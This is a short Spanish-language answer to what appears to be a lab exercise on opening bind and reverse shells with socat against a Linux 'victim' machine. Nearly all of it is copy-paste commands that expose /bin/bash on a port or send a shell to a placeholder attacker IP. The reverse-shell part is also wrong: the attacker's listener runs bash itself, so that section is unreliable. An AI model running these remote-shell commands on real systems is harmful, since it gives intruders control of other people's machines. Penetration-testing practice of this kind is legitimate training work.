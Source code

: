 
***Eso cubre lo necesario para practicar las técnicas netcat bind y reverse shells en la Ubuntu 18.04 según la consigna y los ejemplos dados.***

---
---
**PREGUNTA**

Practice reverse and bind shells using Socat on the Linux machine. Try both the normal and special techniques.

**RESPUESTA**

**Socat Reverse y Bind Shells en Linux**

---

### Requisitos

* `socat` instalado en ambas máquinas (víctima y atacante).
* IP y puertos abiertos para conexiones TCP.

---

### 1. **Bind Shell con Socat (victima escucha)**

En máquina víctima (Linux objetivo):

```bash
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
```

* Escucha en puerto 4444.
* Por cada conexión, ejecuta `/bin/bash` con pseudo-terminal (`pty`), salida de error (`stderr`), sesión propia (`setsid`), y manejo de señales (`sigint`).
* `fork` para múltiples conexiones.

En máquina atacante (local):

```bash
nc <IP_VICTIMA> 4444
```

---

### 2. **Reverse Shell con Socat (victima conecta al atacante)**

En máquina atacante (local), escuchar:

```bash
socat -d -d TCP-LISTEN:5555,reuseaddr,fork EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
```

* Igual que bind shell, escucha en puerto 5555.

En máquina víctima (Linux objetivo), conectar:

```bash
socat TCP:<IP_ATACANTE>:5555 EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
```
---
